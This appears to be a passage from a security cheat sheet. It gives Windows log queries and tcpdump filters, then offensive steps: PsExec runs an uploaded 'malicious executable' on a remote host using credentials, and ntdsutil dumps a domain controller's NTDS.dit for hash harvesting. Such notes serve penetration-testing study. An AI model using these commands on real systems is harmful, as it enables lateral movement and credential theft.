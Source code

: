 ```

## Examining Unusual Log Entries:

```
wevutil qe security /f:text
Get-EventLog -LogName Security | Format-List -Property *
```

## TCPDump

```
tcpdump -i <interface> # Capture, can use "any" 
tcpdump -i <interface> -w <file> # Write to a file after capture
tcpdump -r <file> -n # Read from a file and don't resolve hosts and ports
tcpdump -r <file> -n -A # Read from a file and don't resolve hosts and ports, show as ASCII

# Berkeley Packet Filtering

tcpdump -r <file> 'host 8.8.8.8'
tcpdump -r <file> 'src host 8.8.8.8'
tcpdump -r <file> 'not src host 8.8.8.8'
tcpdump -r <file> 'icmp and (src host 8.8.8.8'
```
## PSExec'ing:

Running PsExec by uploading malicious executable:

```
# This will continue the PsExec session through named pipe, and will only terminate once the process is terminated. Additionally this -c parameter will manually cleanup the executable.
PsExec.exe /accepteula \\192.168.1.2 -u CORP\user -p password -c update.exe

# This will kill the PsExec session and leave the malicious executable on disk
PsExec.exe /accepteula \\192.168.1.2 -u CORP\user -p password -d update.exe
```

## Windows Domain Controller Hash Harvesting:

GOAL: Obtain ```NTDS.dit``` and SYSTEM registry hive data

```
C:\Users\RoseSecurity> ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\ntds
